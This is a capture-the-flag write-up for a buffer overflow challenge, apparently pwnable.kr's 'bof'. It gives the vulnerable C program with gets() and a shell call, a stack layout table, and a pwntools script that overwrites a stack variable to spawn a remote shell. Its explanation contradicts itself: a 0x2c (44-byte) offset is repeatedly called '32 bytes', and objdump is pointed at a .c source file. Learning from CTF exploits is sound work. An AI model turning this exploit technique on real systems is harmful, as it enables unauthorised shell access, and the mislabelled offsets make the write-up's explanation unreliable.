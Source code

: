 
# **Challenge 3: Buffer Overflow**

### **Challenge Code**

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key) {
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);  // Vulnerable function
    if (key == 0xcafebabe) {
        system("/bin/sh");
    } else {
        printf("Nah..\n");
    }
}

int main(int argc, char* argv[]) {
    func(0xdeadbeef);
    return 0;
}
```

---

### **Challenge Objective**
In this challenge, we will:
- Understand what a buffer overflow is.
- Exploit the `gets()` vulnerability to overwrite the `key` variable with the value `0xcafebabe`.
- When the condition `key == 0xcafebabe` is true, the program executes `system("/bin/sh")`, providing a shell to capture the flag.

---

### **Understanding Buffer Overflow**
A **buffer overflow** occurs when we input more data than a variable can hold, causing it to overwrite adjacent memory zones. Every variable in a program is assigned a specific memory zone, but if we can write beyond the boundaries of that memory, we can overwrite other variables, stack pointers, or return addresses.

In this case:
1. The `gets()` function does not perform bounds checking and allows input longer than `overflowme`’s allocated size of 32 bytes.
2. This overflow can overwrite the `key` variable, which is stored nearby in memory.

---

### **Plan to Exploit**
Our goal is to:
1. **Overflow the buffer** (`overflowme`) and write enough data to overwrite the memory where the `key` variable is stored.
2. **Set `key = 0xcafebabe`** by carefully crafting our payload.

---

### **Analyzing the Code**

#### **Vulnerable Function: `func()`**
1. **Overflow Variable:**
   - `overflowme` is a 32-byte buffer located at `ebp - 0x2c` (32 bytes below the base pointer).
   
2. **Key Variable:**
   - The `key` variable is passed as a parameter to `func()` and stored at `ebp + 0x8` (8 bytes above the base pointer).

3. **Critical Instructions:**
   - **`gets(overflowme)`**:
     - Reads user input directly into `overflowme` without size checks.
     - Input longer than 32 bytes will overwrite adjacent memory, including the `key` variable.
   - **Comparison**:
     - The program checks if the `key` variable is equal to `0xcafebabe`:
       ```assembly
       cmpl 0xcafebabe,0x8(%ebp)
       ```
     - If the condition is true, the program calls `system("/bin/sh")`.

---

### **Exploit Analysis**

To overwrite the `key` variable:
1. Fill the 32 bytes of `overflowme` to overflow the buffer.
2. Overwrite the 4 bytes of saved `ebp`.
3. Overwrite the 4 bytes of the return address (optional; not used in this challenge).
4. Write the value `0xcafebabe` to the memory location of `key` at `ebp + 0x8`.

#### **Memory Layout**
| Memory Address | Content               | Offset |
| -------------- | --------------------- | ------ |
| `ebp - 0x2c`   | Start of `overflowme` | +0     |
| `ebp`          | Saved base pointer    | +0x2c  |
| `ebp + 0x4`    | Return address        | +0x30  |
| `ebp + 0x8`    | `key` variable        | +0x34  |

To overwrite the `key` variable, we need:
- **32 bytes** to fill `overflowme`.
- **8 bytes** (saved `ebp` + return address).
- **4 bytes** to write `0xcafebabe` to `key`.
- ![couldn't load image](image.png)
---

### **Crafting the Payload**
Using the above analysis, the payload structure is:
1. **Padding for `overflowme`:**
   - 32 bytes (`'a' * 0x2c`).
2. **Padding for `ebp` and return address:**
   - 8 bytes (`'b' * 0x08`).
3. **Value for `key`:**
   - Write `0xcafebabe` in little-endian format (`\xbe\xba\xfe\xca`).

---

### **Python Exploit Script**

Here’s the Python script to exploit the challenge:

```python
from pwn import *

# Connect to the server
connection = remote("pwnable.kr", 9000)

# Construct the payload
overflow_payload = b'a' * 0x2c       # Fill 32 bytes of overflowme
overflow_payload += b'b' * 0x08      # Padding for saved ebp and return address
overflow_payload += p32(0xcafebabe)  # Overwrite key with 0xcafebabe (little-endian)

# Print the payload for verification
print("Payload:", overflow_payload)

# Send the payload to the server
connection.sendline(overflow_payload)

# Interact with the shell
connection.interactive()
```

---

### **Steps to Execute the Exploit**

1. **Analyze the Disassembly:**
   - Use `objdump -D bof.c` to confirm the memory layout and validate the `overflowme` and `key` locations.

2. **Run the Script:**
   ```bash
   python exploit.py
   ```

3. **Observe the Shell:**
   - If successful, the script overwrites `key` with `0xcafebabe`, triggering the shell:
     ```
     $ whoami
     $ ls
     ```
    ![alt text](image-1.png)
---

### **Key Learnings**

1. **Buffer Overflow Basics:**
   - Overwriting memory beyond the bounds of a buffer allows manipulation of other variables or control flow.

2. **Memory Layout Analysis:**
   - Understanding how variables are stored relative to the stack pointer and base pointer is crucial.

3. **Using Little-Endian Format:**
   - Most modern architectures store multi-byte values in little-endian order, so hex values must be reversed.

4. **Automating Exploits:**
   - Tools like `pwntools` simplify the creation and execution of payloads for CTF challenges.

---
